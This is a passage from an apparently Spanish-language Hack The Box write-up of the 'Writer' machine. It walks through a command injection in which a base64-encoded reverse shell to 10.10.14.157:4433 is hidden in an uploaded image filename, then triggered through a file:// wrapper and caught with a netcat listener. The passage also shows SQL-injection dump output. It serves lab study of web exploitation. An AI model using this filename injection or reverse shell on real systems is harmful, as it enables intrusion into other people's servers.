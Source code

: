 ```bash
hola.jpg;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNTcvNDQzMyAwPiYxCg==|base64 -d|bash;
```

La encodeamos en `base64` para que viaje sin problemas, el sistema debe decodearda (`base64 -d`) e interpretarla (`bash`):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361burp_stories_edit2_imageWITHrevsh.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Enviamos la petición (dando clic en `Send` arriba a la izq) yyyy ahora volvemos a validar en la base de datos:

```py
 python3 plaYsQLi.py --query writer stories id,title,image
[*] Dumpeando id,title,image de writer.stories

...
[+] 2-Autumn Rain-/img/hola.jpg;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNTcvNDQzMyAwPiYxCg==|base64 -d|bash;
...
```

**Perfectísimo, tenemos nuestro primer paso.**

### Jugamos con el wrapper <u>file://</u> para que nuestro payload sea interpretado [⚙️](#web-command-injection-revsh-editimage-wrapper) {#web-command-injection-revsh-editimage-wrapper}

Lo único que falta es referenciar esa imagen, en el código vimos que la imagen es guardada en una ruta especifica:

```py
...
path = os.path.join('/var/www/writer.htb/writer/static/img/', image.filename)
image.save(path)
...
```

Así que el wrapper quedaría así:

```html
file:///var/www/writer.htb/writer/static/img/hola.jpg;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNTcvNDQzMyAwPiYxCg==|base64 -d|bash;
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361burp_stories_edit2_imageWITHrevshYwrapper.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Nos ponemos en escucha por el puerto `4433`:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
```

Enviamos la petición, la página parece fallecer, peeeeeeeeero si revisamos nuestro listener:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_wwwdataRevSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>
